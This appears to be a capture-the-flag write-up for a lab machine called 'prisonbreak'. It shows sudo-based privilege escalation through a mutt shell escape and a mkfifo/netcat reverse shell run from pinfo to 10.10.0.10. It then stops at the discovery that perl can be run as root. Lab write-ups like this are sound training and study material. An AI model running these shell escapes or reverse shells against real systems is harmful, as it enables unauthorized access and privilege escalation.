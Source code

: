 sudo -l 
Matching Defaults entries for cell11 on prisonbreak:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User cell11 may run the following commands on prisonbreak:
    (cell12) NOPASSWD: /usr/bin/mutt


### Privilige escelation */usr/bin/mutt*

i opend the program - sudo -u cell12 /usr/bin/mutt

and escaped with:

```
:!/bin/bash -i 

cell12@prisonbreak:/tmp$ id
uid=1012(cell12) gid=1011(cell12) groups=1011(cell12)

```

sudo -l 
Matching Defaults entries for cell12 on prisonbreak:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User cell12 may run the following commands on prisonbreak:
    (cell13) NOPASSWD: /usr/bin/pinfo


### Privilige escelation */usr/bin/pinfo*

runing the program, i notice that if i click on "!", i have option to run commands, 
i tried to spawn shell, didnt have success, so i did reverse shell and i got shell as cell 13. 


```
!  - enter command

rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/bash -i 2>&1|nc 10.10.0.10 5555 >/tmp/f

nc -lnvp 5555

id
uid=1013(cell13) gid=1012(cell13) groups=1012(cell13)
```

sudo -l 
Matching Defaults entries for cell13 on prisonbreak:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User cell13 may run the following commands on prisonbreak:
    (root) NOPASSWD: /usr/bin/perl

